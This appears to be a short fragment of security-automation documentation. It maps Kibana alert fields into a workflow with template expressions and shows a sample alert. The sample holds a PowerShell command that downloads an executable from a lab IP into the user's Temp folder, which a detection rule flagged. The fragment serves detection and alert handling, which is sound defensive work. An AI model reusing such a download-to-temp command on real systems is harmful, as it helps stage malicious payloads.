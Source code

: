 ```
process.command_line
{{ $json['out.process.command.line'] }}
```

```
file.path
{{ $json['out.file.path'] }}
```

```
file.name
{{ $json['out.file.name'] }}
```

```
kibana.alert.uuid
{{ $json["kibana.alert.uuid"] }}
```

```
kibana.alert.rule.name
{{ $json['kibana.alert.rule.name'] }}
```

Output example:

```
[
  {
    "kibana": {
      "alert": {
        "original_time": "2025-10-17T16:16:34.709Z",
        "uuid": "e9541a2de77d94911abd6cf1150a3c1344aa1504",
        "rule": {
          "name": "ESQL - Suspicious PowerShell Download and Execute Pattern"
        }
      }
    },
    "user": {
      "name": "vagrant"
    },
    "host": {
      "name": "win-user-1"
    },
    "event": {
      "action": "creation"
    },
    "process": {
      "command_line": "powershell -NoProfile -command (New-Object System.Net.WebClient).DownloadFile('http://100.65.0.6/WinPingDemo.exe', \"$env:TEMP\\\\WinPingDemo.exe\")"
    },
    "file": {
      "path": "C:\\Users\\vagrant\\AppData\\Local\\Temp\\WinPingDemo.exe",
      "name": "WinPingDemo.exe"
    }
  }
]
```
